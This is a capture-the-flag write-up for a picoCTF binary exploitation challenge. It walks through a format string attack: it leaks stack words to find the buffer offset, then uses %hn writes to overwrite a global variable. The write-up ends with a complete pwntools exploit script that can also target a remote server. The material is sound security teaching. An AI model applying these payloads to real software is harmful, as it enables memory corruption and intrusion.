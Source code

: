 # format string 2 #
 
## Overview ##

200 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #formatstring #infoleak #writewhatwhere`

## Description ##

This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!

## Approach ##

Inspecting the provided `vuln.c` source file we see a global variable `sus` initialised with a value of `0x21737573`. After prompting for input from standard input, this buffer is printed directly and not as part of a format string, therefore vulnerable to format string attack (as the name of the challenge suggests) :

    printf(buf);

The flag file is then read and displayed if the aforementioned global variable `sus` is equal to `0x67616c66`, our win condition. Note that `sus` is modified outside of it's initialisation, hence we must use the format string attack to rewrite the value in this variable.

A quick check of the provided challenge binary `vuln` we can see this is a 64-bit executable:

    $ file vuln
    vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=dfe923d97df1df729249ff21202d10ad15d45f4c, for GNU/Linux 3.2.0, not stripped

Using a typical stack dumping info leak mechanism to locate `buf` on the stack, using a token that can be readily located, in this case the string "BBBBBBBB", which we'll find in hexadecimal form as `0x4242424242424242`. The first instance (string representation) in the output is just our token being printed by `printf()` and not the contents of `buf`.

    $ echo $(python3 -c 'print("B"*8 + ".%016llx" * 50)') | ./vuln 
    You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
    Here's your input: BBBBBBBB.0000000000402075.0000000000000000.00007feea9e16a00.0000000000000000.00000000009546b0.00000001a9f2aaf0.00007feea9eee4d0.0000000000000000.00007fee00000000.00007fee00000000.00007fee00000000.00000000ffffffff.00007ffda5cf5360.4242424242424242.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e.786c6c363130252e
    sus = 0x21737573
    You can do better!

Our token can be found in the 14'th word in the dump, which correlates with the 14'th dummy format string argument. To verify we can print just our token argument:

    $ echo $(python3 -c 'print("B"*8 + ".%14$016llx")') | ./vuln 
    You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
    Here's your input: BBBBBBBB.4242424242424242
    sus = 0x21737573
    You can do better!

To be able to rewrite the value of `sus` we must first locate its address:

    $ objdump -t vuln | grep sus
    0000000000404060 g     O .data  0000000000000004              sus

We'll break up the writing of `sus` into two separate short integers (16-bit), therefore the two values that need to be written and their corresponding addresses are (keeping in mind endianness)

      0x67616c66        @ 0x404060
    = ----------------------------
      0x6761 (or 26465) @ 0x404062
      0x6c66 (or 27750) @ 0x404060

To write `sus` we'll use the well known format string attack using the `%n` format parameter, in particular `%hn` variant, where:

    %n  Writes the number of characters written so far into a pointer reference (int *)
    %hn Writes the number of characters written so far into a pointer reference (short int *)

So using this mechanism, the premise is we must generate a string containing the number of characters corresponding to the short value we want to write then use `%hn` to write it at our target address.

Therefore our final input attack payload used was:

    b'%26465x%18$hn...' + b'%1282x%19$hn....' + b'\x62\x40\x40\x00\x00\x00\x00\x00' + b'\x60\x40\x40\x00\x00\x00\x00\x00'

Where;
- `"%26465x"` sets up the first write of `26465 (0x6761)` using the padding feature to output a single integer in hexadecimal format to standard output, but padded to `26465` characters.
- `"%18$hn..."` write the first short integer, the number of characters output thus far in this `printf()` statement to the memory location pointed to by the 18'th argument provided to `printf()`. Given no arguments were provided to `printf()` this ends up referencing a word on the stack, which we constructed to be the location of our first target memory address we will put in `buf`. We know previously that `buf` starts at the 14'th word, but our constructed format string (prior to the appended addresses) occupies the first 32-characters (4 64-bit words), meaning out first address is `14 + 4 = 18`'th argument. Note that the `...` were added simply to assist with alignment of the format string and addresses within the buffer.
- `"%1282x"` sets up our second write of `27750 (0x6c66)` remembering we had already outputted `26,465` characters plus our alignment padding `...` of another 3 characters, therefore we need to write `27,750 - (26,465 + 3) = 1,282` and use the same mechanism as the first write.
- `"%19$hn...."` writes the second short integer using the same mechanism, with the address of the second write the 19'th argument.
- `"\x62\x40\x40\x00\x00\x00\x00\x00"` is the target address of our first short integer write in little endian byte encoded form, used as the 18'th argument to the `printf()` from the stack.
- `"\x60\x40\x40\x00\x00\x00\x00\x00"` the target address of the second short integer write.

A couple of points to note;
- we use the short integer writes instead of one single integer write to minimise the amount of characters that are required to be output on standard output.
- we must make sure we write the small value of the two first as we build up the attack string and continue to add output characters, hence the writes must be ordered accordingly.
- both addresses are appended to the format string as they contain bytes of values zero, that would be treated as a string null termination character by `printf()` and would not complete the format string otherwise.

## Solution ##

The final solution used was implemented via the following pwntools script:

    #!/usr/bin/env python3

    from pwn import *
    import re

    target_elf = ELF("./vuln")

    # command line support for local, remote and gdb modes
    if len(sys.argv) > 1:
      if "remote" in sys.argv:
        if len(sys.argv) > 3:
          target_proc = remote(sys.argv[2], sys.argv[3])
        else:
          print('usage: ./pwn-game.py remote <server> <port>')
          exit(1)
      elif "gdb" in sys.argv:
        target_proc = target_elf.process()
        gdb.attach(target_proc)
    else:
      target_proc = target_elf.process()

    # recv and throw away until we receive our input prompt
    target_proc.recvuntil(b'say?')
    payload = b'%26465x%18$hn...' + b'%1282x%19$hn....' + b'\x62\x40\x40\x00\x00\x00\x00\x00' + b'\x60\x40\x40\x00\x00\x00\x00\x00'
    # payload construction debugging
    print(payload)
    with open("payload.txt", "wb") as binary_file:
      binary_file.write(payload)
    # send payload to target and we're done
    target_proc.sendline(payload)
    target_proc.interactive()

Which yielded a lot of output (as expected) the tail of which containing our flag:

    I have NO clue how you did that, you must be a wizard. Here you go...
    picoCTF{...........redacted.............}
    [*] Got EOF while reading in interactive

Where the actual flag value has been redacted for the purposes of this write up.
